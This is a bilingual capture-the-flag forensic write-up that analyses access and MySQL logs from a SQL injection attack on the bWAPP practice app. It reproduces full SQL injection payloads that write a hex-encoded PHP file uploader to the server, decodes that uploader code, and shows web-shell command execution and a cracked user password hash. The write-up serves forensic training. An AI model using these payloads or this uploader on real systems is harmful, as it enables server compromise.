



# STMCTF23 QUESTION

## Information
### Challenge name: 

`log_analizi`

### Categories:
 - `forensic`

### Challenge message:
```
TR:
Sunucuya yüklenen dosyanın tam yolu nedir?
EN:
What is the full path of the file uploaded?

TR:
Mysql sunucusunun versiyonu nedir?
EN:
What is the version of mysql server?

TR:
Sql injection zafiyeti hangi tabloda kontrol edilmiştir?
EN:
Which table checked for the sql injection vulnerability?

TR:
bee kullanıcısının parolası nedir?
EN:
What is the password of bee user?
```
---

## Solution - TR:

TR:
Sunucuya yüklenen dosyanın tam yolu nedir?

İlk olarak access.log üzerinden komut çalıştırılmak için kullanılan dosya aşağıdaki şekilde tespit edilmiştir. tmpbooav.php

192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /bWAPP/sqli_1.php?title=1%27%20LIMIT%200%2C1%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Ftmpudape.php%27%20LINES%20TERMINATED%20BY%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d2f7661722f7777772f3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a--%20-&action=search HTTP/1.1" 200 13651 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /var/www/tmpudape.php HTTP/1.1" 404 388 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /www/tmpudape.php HTTP/1.1" 404 384 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /tmpudape.php HTTP/1.1" 200 - "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /bWAPP/sqli_1.php?title=-1996%27%20UNION%20ALL%20SELECT%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d2f7661722f7777772f3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20INTO%20DUMPFILE%20%27%2Fvar%2Fwww%2Ftmpugqta.php%27--%20-&action=search HTTP/1.1" 200 13651 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /bWAPP/sqli_1.php?title=-7714%27%20UNION%20ALL%20SELECT%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d2f7661722f7777772f3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20INTO%20DUMPFILE%20%27%2Fvar%2Fwww%2Ftmpugqta.php%27--%20-&action=search HTTP/1.1" 200 2206 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /bWAPP/sqli_1.php?title=1%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%280x7162627a71%2CIFNULL%28CAST%28LENGTH%28LOAD_FILE%280x2f7661722f7777772f746d7075677174612e706870%29%29%20AS%20CHAR%29%2C0x20%29%2C0x7178717871%29%2CNULL--%20-&action=search HTTP/1.1" 200 13534 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /var/www/tmpugqta.php HTTP/1.1" 404 388 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /www/tmpugqta.php HTTP/1.1" 404 384 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /tmpugqta.php HTTP/1.1" 200 304 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "POST /tmpugqta.php?title=1&action=search HTTP/1.1" 200 19 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /tmpbooav.php?cmd=echo%20command%20execution%20test HTTP/1.1" 200 34 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:53:55 +0200] "GET /tmpbooav.php?cmd=ip%20a HTTP/1.1" 200 531 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"

Sonrasında bu dosyayı yükleyen ana dosyaya ait bilgiler aşağıdaki şekilde ulaşılmıştır:

-7714%27%20UNION%20ALL%20SELECT%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d2f7661722f7777772f3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20INTO%20DUMPFILE%20%27%2Fvar%2Fwww%2Ftmpugqta.php%27--%20-&action=search

payloadunda yer alan hex ifade text olarak aşağıdaki şekilde gözlemlenmiştir:

<?php
if (isset($_REQUEST["upload"]))
{$dir=$_REQUEST["uploadDir"];
if (phpversion()<'4.1.0')
{$file=$HTTP_POST_FILES["file"]["name"];
@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();}
else{$file=$_FILES["file"]["name"];@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();}
@chmod($dir."/".$file,0755);echo "File uploaded";}
else 
{echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data>
<input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b>
<br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=/var/www/> 
<input type=submit name=upload value=upload></form>";}?>

Dosya Adı:
/var/www/tmpugqta.php

TR:
Mysql sunucusunun versiyonu nedir?

Log dosyalarından mysql.log dosyasında versiyon bilgisi 5.0.96 tespit edilmiştir.



TR:
Sql injection zafiyeti hangi tabloda kontrol edilmiştir?

mysql.log.1 incelendiğinde Sql sorguları movies tablosunda yapılmıştır.

TR:
bee kullanıcısının parolası nedir?

bee kullanıcısının hash değeri ilk olarak mysql.log.1 dosyasından elde edilir:
SELECT * FROM users WHERE login = 'bee' AND BINARY password = '6885858486f31043e5839c735d99457f045affd0' AND activated = 1



Crack station çıktısında parolanın bug olduğu gözlemlenmiştir.



---

## Solution - EN:

EN:
What is the full path of the file uploaded?

First of all, the file used to run commands via access.log was identified as follows. tmpbooav.php

192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /bWAPP/sqli_1.php?title=1%27%20LIMIT%200%2C1%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Ftmpudape.php%27%20LINES%20TERMINATED%20BY%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d2f7661722f7777772f3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a--%20-&action=search HTTP/1.1" 200 13651 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /var/www/tmpudape.php HTTP/1.1" 404 388 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /www/tmpudape.php HTTP/1.1" 404 384 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /tmpudape.php HTTP/1.1" 200 - "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /bWAPP/sqli_1.php?title=-1996%27%20UNION%20ALL%20SELECT%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d2f7661722f7777772f3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20INTO%20DUMPFILE%20%27%2Fvar%2Fwww%2Ftmpugqta.php%27--%20-&action=search HTTP/1.1" 200 13651 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /bWAPP/sqli_1.php?title=-7714%27%20UNION%20ALL%20SELECT%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d2f7661722f7777772f3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20INTO%20DUMPFILE%20%27%2Fvar%2Fwww%2Ftmpugqta.php%27--%20-&action=search HTTP/1.1" 200 2206 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /bWAPP/sqli_1.php?title=1%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%280x7162627a71%2CIFNULL%28CAST%28LENGTH%28LOAD_FILE%280x2f7661722f7777772f746d7075677174612e706870%29%29%20AS%20CHAR%29%2C0x20%29%2C0x7178717871%29%2CNULL--%20-&action=search HTTP/1.1" 200 13534 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /var/www/tmpugqta.php HTTP/1.1" 404 388 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /www/tmpugqta.php HTTP/1.1" 404 384 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /tmpugqta.php HTTP/1.1" 200 304 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "POST /tmpugqta.php?title=1&action=search HTTP/1.1" 200 19 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:50:35 +0200] "GET /tmpbooav.php?cmd=echo%20command%20execution%20test HTTP/1.1" 200 34 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.64.129 - - [21/Sep/2023:17:53:55 +0200] "GET /tmpbooav.php?cmd=ip%20a HTTP/1.1" 200 531 "http://192.168.64.131/bWAPP/sqli_1.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"

Afterwards, the information about the main file that uploaded this file was obtained as follows:

-7714%27%20UNION%20ALL%20SELECT%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d2f7661722f7777772f3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20INTO%20DUMPFILE%20%27%2Fvar%2Fwww%2Ftmpugqta.php%27--%20-&action=search

The hex expression in the payload was observed as text as follows:

<?php
if (isset($_REQUEST["upload"]))
{$dir=$_REQUEST["uploadDir"];
if (phpversion()<'4.1.0')
{$file=$HTTP_POST_FILES["file"]["name"];
@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();}
else{$file=$_FILES["file"]["name"];@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();}
@chmod($dir."/".$file,0755);echo "File uploaded";}
else 
{echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data>
<input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b>
<br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=/var/www/> 
<input type=submit name=upload value=upload></form>";}?>

Filename:
/var/www/tmpugqta.php

EN:
What is the version of mysql server?

Among the log files, version information 5.0.96 was detected in the mysql.log file.


EN:
Which table checked for the sql injection vulnerability?

When mysql.log.1 is examined, Sql queries are made in the movies table.

EN:
What is the password of bee user?

The hash value of user bee is first obtained from the mysql.log.1 file:
SELECT * FROM users WHERE login = 'bee' AND BINARY password = '6885858486f31043e5839c735d99457f045affd0' AND activated = 1


It was observed in the crack station output that the password was a bug.


